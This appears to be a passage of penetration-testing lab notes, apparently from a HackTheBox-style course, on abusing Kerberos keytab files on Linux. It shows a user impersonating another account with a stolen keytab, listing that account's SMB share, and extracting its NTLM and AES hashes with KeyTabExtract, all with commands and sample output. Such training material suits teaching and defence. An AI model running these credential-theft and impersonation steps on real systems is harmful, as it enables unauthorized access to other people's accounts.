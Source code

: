 #### Impersonating a User with a keytab

```sh

david@inlanefreight.htb@linux01:~$ klist

Ticket cache: FILE:/tmp/krb5cc_647401107_r5qiuu
Default principal: david@INLANEFREIGHT.HTB
Valid starting     Expires            Service principal
10/06/22 17:02:11  10/07/22 03:02:11  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/07/22 17:02:11


david@inlanefreight.htb@linux01:~$ kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab


david@inlanefreight.htb@linux01:~$ klist 
Ticket cache: FILE:/tmp/krb5cc_647401107_r5qiuu
Default principal: carlos@INLANEFREIGHT.HTB

Valid starting     Expires            Service principal
10/06/22 17:16:11  10/07/22 03:16:11  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/07/22 17:16:11
```

* We can attempt to access the shared folder `\\dc01\carlos` to confirm our access

#### Connecting to SMB Share as Carlos

```sh
smbclient //dc01/carlos -k -c ls

  .                                   D        0  Thu Oct  6 14:46:26 2022
  ..                                  D        0  Thu Oct  6 14:46:26 2022
  carlos.txt                          A       15  Thu Oct  6 14:46:54 2022

                7706623 blocks of size 4096. 4452852 blocks available
```

**Note:** To keep the ticket from the current session, before importing the keytab, save a copy of the ccache file present in the enviroment variable `KRB5CCNAME`.

### Keytab Extract
* We can extract the secrets from a keytab file
* We can attempt to crack the account's password by extracting the hashes from the keytab file
* [KeyTabExtract](https://github.com/sosdave/KeyTabExtract), a tool to extract valuable information from 502-type .keytab files, which may be used to authenticate Linux boxes to Kerberos
* The script will extract information such as the realm, Service Principal, Encryption Type, and Hashes

#### Extracting Keytab Hashes with KeyTabExtract

```sh
david@inlanefreight.htb@linux01:~$ python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab 

[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
        REALM : INLANEFREIGHT.HTB
        SERVICE PRINCIPAL : carlos/
        NTLM HASH : a738f92b3c08b424ec2d99589a9cce60
        AES-256 HASH : 42ff0baa586963d9010584eb9590595e8cd47c489e25e82aae69b1de2943007f
        AES-128 HASH : fa74d5abf4061baa1d4ff8485d1261c4
```
